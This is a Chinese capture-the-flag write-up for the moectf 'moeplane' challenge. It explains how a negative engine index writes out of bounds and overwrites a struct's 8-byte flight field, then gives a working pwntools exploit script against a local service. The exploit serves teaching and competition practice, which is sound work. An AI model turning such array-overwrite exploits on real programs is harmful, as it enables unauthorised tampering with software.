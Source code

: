 # moectf moeplane

by Maple

***数组越界覆盖***

盲打的题，很有意思，好像还有点拼手速（脚本就不需要手速了）

```shell
The plane is about to crash. Do something!
[CTR] Fly to airport at 69259509840.
[Meters]
  Altitude: 10000
  Velocity: 300
  Bank angle: 0
  Thrust: engine#1: 20; engine#2: 20; engine#3: 20; engine#4: 20;
[Navigator]
  Flight: 0
  Target: 69259509840
[MoePlane Console]
  0. Check the meters.
  1. Adjust engine thrust.
  2. Adjust trim.
  3. Win the game!
Make your choice:
>
```

连接之后会有这些显示，进行一番尝试之后只发现`1. Adjust engine thrust`有点可疑，因为似乎有修改数据的权限

```shell
Make your choice:
> 1
Which engine?
> -1
Thrust in percentage (0 ~ 100).
> 1
Adjusting engine#-1's thrust to 1[INFO] Done.
```

直接盲猜有负数的非预期输入，结果还真是，那接下来就很好解决了

看下题目给我们的提示：

```c
struct airplane {
    long flight;
    int altitude; // 4 字节
    int velocity; // 4 字节
    int angle;    // 4 字节
    unsigned char engine_thrust[ENGINES]; // 距离 `flight` 12 字节
} moeplane;
```

我们输入的地方是`engine_thrust[ENGINES]`是一个数组元素，根据数组寻址的特性（基址+偏移），我们可以通过输入负数往上方数据写，把flight给覆盖掉，成为目标距离`69259509840`(等效十六进制0x1020304050)

同时别忘了小端序（这个不知道？看csapp去吧），并且flight为`long型（8字节）`，所以我们应该把flight改写为

`50 40 30 20 10 00 00 00`

分别对应`engine_thrust`基地址的

`-20 -19 -18 -17 -16 -15 -14 -13`

然后然后，这道题还有个`输入 - 1`在里面，坑人一把，所以应该输入的时候`+1`

exp：

```python
from pwn import *
context(arch='amd64',log_level='debug')
p = remote('127.0.0.1',64479)
p.sendlineafter(b'>',b'1')
p.sendlineafter(b'>',b'-15')
p.sendlineafter(b'>',b'16')
p.sendlineafter(b'>',b'1')
p.sendlineafter(b'>',b'-16')
p.sendlineafter(b'>',b'32')
p.sendlineafter(b'>',b'1')
p.sendlineafter(b'>',b'-17')
p.sendlineafter(b'>',b'48')
p.sendlineafter(b'>',b'1')
p.sendlineafter(b'>',b'-18')
p.sendlineafter(b'>',b'64')
p.sendlineafter(b'>',b'1')
p.sendlineafter(b'>',b'-19')
p.sendlineafter(b'>',b'80')
p.interactive()
```

（手动输入应该也行，似乎有些拼手速）

